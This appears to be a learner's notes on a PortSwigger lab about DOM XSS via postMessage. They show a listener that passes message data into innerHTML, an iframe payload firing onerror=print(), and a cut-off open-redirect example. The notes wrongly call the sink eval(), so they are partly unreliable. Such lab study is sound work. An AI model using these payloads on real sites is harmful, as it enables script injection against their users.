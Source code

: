 Consider that a web page contains addEventListener() in the source:
```
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```

As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.

We can exploit this by sending the below javascript via post message to the server
`
<iframe src="https://ac5f1f471f6efd53c0331224005500d8.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
`

Consider the below code, where 

```
                    <script>
                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
                    </script>
```
  
  
